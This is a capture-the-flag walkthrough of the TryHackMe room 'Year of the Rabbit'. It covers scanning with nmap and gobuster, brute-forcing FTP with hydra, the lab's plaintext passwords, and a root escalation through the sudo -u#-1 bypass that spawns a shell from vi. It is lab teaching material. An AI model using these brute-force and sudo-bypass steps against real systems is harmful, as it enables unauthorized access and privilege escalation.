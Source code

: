 # Year of the Rabbit

**Room Link:** [https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (25) (6).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

### Turn off Javascript

```
Enter about:config into the search bar and select Accept the Risk and Continue.
Enter javascript.enabled into the search box at the top of the page.
Select the javascript.enabled toggle to change the value to false.
```

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
strings Hot_Babe.png 
```

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l ftpuser -P passwords.txt ftp://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

## FTP

**Kali**

```
ftp $VICTIM
password: 5iez1wGXKfPKQ
```

<figure><img src="../../.gitbook/assets/image (7) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Elis creds is encoded with something called Brain fuck. There are tools online to decode it.

**Link:** [https://www.dcode.fr/brainfuck-language](https://www.dcode.fr/brainfuck-language)

<figure><img src="../../.gitbook/assets/image (10) (7).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh eli@$VICTIM
Password: DSpDiM1wAEwid
```

<figure><img src="../../.gitbook/assets/image (13) (4).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
locate s3cr3t
cat cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
```

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su gwendoline
Password: MniVCQVhQHUNI
```

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

## **Privilege escalation**

Mostly followed the link below, we can't run sudo with root as we have (ALL , !root) here. if we had (ALL , ALL) it would be easy to escalate. Adding sudo -u#-1  to infront of the command allows us to bypass this.

**Link:** [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

**Victim**

```
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
#While vi is open run:
:!/bin/sh
```

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>























